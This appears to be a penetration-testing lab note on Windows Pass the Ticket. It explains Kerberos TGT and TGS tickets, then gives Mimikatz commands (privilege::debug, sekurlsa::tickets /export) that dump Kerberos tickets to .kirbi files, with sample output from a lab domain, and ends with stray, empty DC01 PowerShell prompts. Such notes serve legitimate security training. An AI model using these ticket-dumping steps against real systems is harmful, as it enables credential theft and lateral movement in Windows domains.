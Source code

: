 # Pass the Ticket Windows

## About Kerberos

Simply put, Kerberos is an authentication system that works with the concept of Tickets. Instead of asking the domain-joined user each time for a password to access specific services, It presents a ticket for each server they asked for, without the need to provide their password every time. This works with two types of tickets:

* TGT: Ticket Granting Ticket which is the first ticket we obtain on a Kerberos system. It permits the client to obtain additional Kerberos tickets or TGS.
* TGS: Ticket Granting Service, which is requested by users who want to access specific service. It allows services to verify the user's identity. The process is as follows:

1. The user requests a TGT.
2. They must authenticate to the DC by combining a timestamp encryption and his password hash.
3. The DC then decrypts the timestamp and verifies the identity.
4. Upon success the DC sends back a TGT to the user for future requests.
5. User no longer have to verify their identity with their password.
6. If the user wants to access MSSQL database, they request a TGS to the Key Distribution Center (KDC) while presenting their TGT.
7. The KDC will give the TGs to the MSSQL database server for authentication.

***



## Harvesting Kerberos Tickets

### Method 1: Mimikatz **sekurlsa::tickets** module

```batch
c:\tools> mimikatz.exe

<SNIP>

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export

<SNIP>

mimikatz # exit
Bye!
```

This will print out the result and saves it to files with a **.kirbi** extension. User tickets will be saved with the following pattern : `[randomvalue]-username@service-domain.local.kirbi`.

While the tickets that end with `$` correspond to the computer account.

```batch
c:\tools> dir *.kirbi

Directory: c:\tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----

<SNIP>

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname